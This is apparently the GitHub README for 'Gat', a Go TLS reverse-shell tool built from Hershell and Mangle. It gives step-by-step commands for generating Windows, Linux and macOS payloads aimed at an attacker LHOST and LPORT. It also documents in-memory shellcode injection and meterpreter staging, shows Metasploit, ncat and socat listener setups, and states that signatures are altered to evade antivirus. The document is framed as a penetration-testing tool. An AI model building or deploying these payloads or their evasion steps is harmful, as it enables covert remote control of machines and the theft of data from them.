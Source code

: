 # Gat
Golang Access Tool

Simple TCP reverse shell written in [Go](https://golang.org).
It uses TLS to secure the communications, and provide a certificate public key fingerprint pinning feature, preventing from traffic interception.

###Note: I dont take credit for the majority of this code. This is a combination of two tools i use often in pentest with slight tweaks to change signatures and a script to automate the deployment of said tools.

Supported OS are:

- Windows
- Linux
- Mac OS
- FreeBSD and derivatives

## Getting started & dependencies

Since this is a Go project, you will need to follow the [official documentation](https://golang.org/doc/install) to set up
your Golang environment.\
(with the `$GOPATH` environment variable).\

Prerequisite

```
go install mvdan.cc/garble@latest
```


```
git clone https://github.com/m1ddl3w4r3/Gat.git
cd Gat
go mod init Gat/Gat
go mod tidy
cd utils/
go build Mangle.go
```
## Usage
Gat will use 'MSF's Multi Handler' by default.(If listener selected)\
Other options are available such as:

*socat\
*ncat

These shells can be upgraded to meterpreter shells using the 'meterpreter' command in Gat.

##Gat.sh to make things easy.
***WARNING*** Change CN in make file to accurately reflect you Orgs Certificate or Hostname of HTTPS server.
```
./Gat.sh - Will show example and ascii art.
./Gat.sh [ Windows|Mac|Linux ] <LHOST> <LPORT> - Will generate given OS type payload.
./Gat.sh Cleanup - Will cleanup past deployments.
```

This custom interactive shell will allow you to execute system commands through `cmd.exe` on Windows, or `/bin/sh` on UNIX machines.

The following special commands are supported:

* ``run_shell`` : drops you an system shell (allowing you, for example, to change directories)
* ``inject <base64 shellcode>`` : injects a shellcode (base64 encoded) in the same process memory, and executes it
* ``meterpreter [tcp|http|https] IP:PORT`` : connects to a multi/handler to get a stage2 reverse tcp, http or https meterpreter agent from metasploit, and execute the shellcode in memory (Windows only at the moment)
* ``exit`` : exit gracefully


## Examples

### Basic usage



## Meterpreter staging
**WARNING**: this currently only work for the Windows platform.

The meterpreter staging currently supports the following payloads :

* `windows/x64/meterpreter/reverse_tcp`
* `windows/x64/meterpreter/reverse_http`
* `windows/x64/meterpreter/reverse_https`

To use the correct one, just specify the transport you want to use (tcp, http, https)
To use the meterpreter staging feature, just start your handler:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 8443
set HandlerSSLCert ./server.pem
exploit -j
```

Then, in `Gat`, use the `meterpreter` command:

```bash
[Gat]> meterpreter https 127.0.0.1:8443
```
A new meterpreter session should pop in `msfconsole`:

Here is an example with `ncat`:

```
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
```

'socat' example (tested with version `1.7.3.2`):
```
socat `tty` OPENSSL-LISTEN:1234,reuseaddr,cert=server.pem,key=server.key,verify=0
```

## Manually create GAT for more custom setup.
***WARNING*** Generating this way will not apply mangle to the payload and could be caught by AV. \
(Make sure to obfuscate it if you do this.)

You will need to generate a valid certificate:
```bash
$ make depends
openssl req -subj '/CN=yourcn.com/O=YourOrg/C=FR' -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.pem
Generating a 4096 bit RSA private key
....................................................................................++
.....++
writing new private key to 'server.key'
-----
cat server.key >> server.pem
```

For windows:

```bash
# Predifined 32 bit target
$ make windows32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make windows64 LHOST=192.168.0.12 LPORT=1234
```

For Linux:
```bash
# Predifined 32 bit target
$ make linux32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make linux64 LHOST=192.168.0.12 LPORT=1234
```

For Mac OS X
```bash
# Predifined 32 bit target
$ make macos32 LHOST=192.168.0.12 LPORT=1234
# Predifined 64 bit target
$ make macos64 LHOST=192.168.0.12 LPORT=1234
```

## Credits
Ronan Kervella `<r.kervella -at- sysdream -dot- com>` - For his [Hershell](https://github.com/lesnuages.hershell) repo.\
@Tyl0us - For his awesome work on [Mangle](https://github.com/optiv/mangle).
